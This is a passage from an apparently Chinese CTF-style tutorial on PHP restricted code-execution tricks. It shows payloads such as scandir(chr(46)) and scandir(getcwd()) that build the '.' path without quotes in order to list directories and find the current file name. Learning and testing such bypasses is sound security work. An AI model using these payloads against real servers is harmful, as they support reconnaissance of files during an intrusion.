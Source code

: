 除上述之外还有一些也能这样，但是是概率事件，就不是确定。

```php
print_r(scandir(chr(46)));
print_r(scandir(chr(rand())));
print_r(scandir(chr(time())));
print_r(scandir(reset(localtime(time()))));
```

其实后面三个都是要看运气的，这里是因为后面三个生成的数字太大了，不存在，所以就输出了这个唯一的路径。

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

对于这个.的构造我们还可以通过数学方法计算来得到46，可以但是应该很难算，而且现在来说限制太大了，我的环境实验不出来，但是还是贴出一些例子大家参考参考

```php
tan(floor(phpversion()));
```

我们还可以通过绝对路径来查看当前文件名

```php
print_r(end(scandir(getcwd())));
print_r(end(scandir(realpath('.'))));
```
